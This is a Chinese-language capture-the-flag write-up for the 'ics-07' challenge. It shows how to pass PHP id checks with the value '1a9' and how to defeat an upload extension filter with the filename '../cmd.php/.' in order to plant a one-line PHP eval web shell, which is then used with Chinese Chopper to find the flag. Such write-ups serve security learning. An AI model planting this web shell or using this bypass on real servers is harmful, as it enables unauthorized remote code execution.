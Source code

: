 # ics-07
## 题目描述
工控云管理系统项目管理页面解析漏洞
## 思路
http://220.249.52.133:36541  
点进题目链接，熟悉的界面，我们直接进入项目管理页面：  
![avatar](./picture/ics-07_1.png)  
有 view-source，直接查看源码，发现源码有三段 php 代码，顺序有点意思，是倒序，先分析最下面的代码：  
![avatar](./picture/ics-07_2.png)  
主要需要绕过三个函数：  
```php
isset($_GET[id]); //是否设置id参数
floatval($_GET[id]) !== '1'; //传入的id浮点值不能为1
substr($_GET[id], -1) === '9');//id的最后一个字符得是9
```
那我们直接构造最简单的 19 尝试一下：  
![avatar](./picture/ics-07_3.png)  
报错，这应该是 $result 出现了问题，应该是没有 19 这个 id，怎么才能让 id 既是 1 又能通过以上三个函数的过滤呢？尝试中间加入字符，如 1a9，最终得到结果：  
![avatar](./picture/ics-07_4.png)  
继续分析下一段代码：  
![avatar](./picture/ics-07_5.png)  
首先是，POST 参数，然后出来一个文件目录 backup/，但由于后面又 chdir，因此前面那个 backup/ 是个假目录，真实的上传目录是 chdir 中的 uploaded/。因为他把文件名改为了 backup/file 因此，在上传时需要在文件名前加一个 ../ 否则，上传的文件会出现在 uploaded/backup/ 文件夹中。其实，这个问题不大，如果不改，在使用菜刀的时候，加一层目录就好了。  
有一个正则匹配，过滤文件名，但主要是过滤后缀，即 .php 以及 .php4567 这些，但是这存在一个问题，就是它只检测最后一个 . 那我们可以多加一个 /. 即可。  
因此，构建 POST 参数，上传一句话木马：  
```php
con=<?php @eval($_POST['cmd']);?>&file=../cmd.php/.
```
bp 截图：  
![avatar](./picture/ics-07_6.png)  
接下来就该用菜刀了：  
![avatar](./picture/ics-07_7.png)  
顺利访问到了网站目录：  
![avatar](./picture/ics-07_8.png)  
找找 flag 就好了，最终，在 html 目录中找到了 flag.php 文件：  
![avatar](./picture/ics-07_9.png)  
访问一下 flag.php 文件，得到 flag：  
![avatar](./picture/ics-07_10.png)  
